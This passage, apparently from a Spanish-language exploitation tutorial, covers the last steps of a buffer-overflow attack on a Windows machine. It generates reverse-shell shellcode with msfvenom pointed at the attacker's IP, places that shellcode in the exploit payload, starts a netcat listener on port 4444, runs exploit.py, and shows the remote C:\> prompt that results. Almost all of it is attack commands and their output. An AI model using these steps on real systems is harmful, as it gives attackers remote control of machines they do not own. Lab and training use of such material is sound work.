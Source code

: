 
#### ✅ PASO 4️⃣ Elegir payload real

✅ Puedes generar **shellcode** con msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=TU_IP LPORT=4444 -f python
```

✅ Salida:

```python
buf =  b""
buf += b"\xdb\xc3\xd9\x74\x24..."
```

✅ Pones ese **buf** en lugar de los 'A' del payload.

---

✅ Resultado:

```python
payload = buf
```

---

#### ✅ PASO 5️⃣ Configurar Listener (Netcat)

✅ En tu máquina:

```bash
nc -lvnp 4444
```

✅ Está esperando la conexión reversa.

---

#### ✅ PASO 6️⃣ Ejecutar exploit

✅ En la máquina atacante:

```bash
python3 exploit.py
```

✅ Resultado esperado:

```
connection to 192.168.1.10 port 9999
sending payload
```

✅ En Netcat:

```
connect from 192.168.1.10
Microsoft Windows [Version...]
C:\>
```
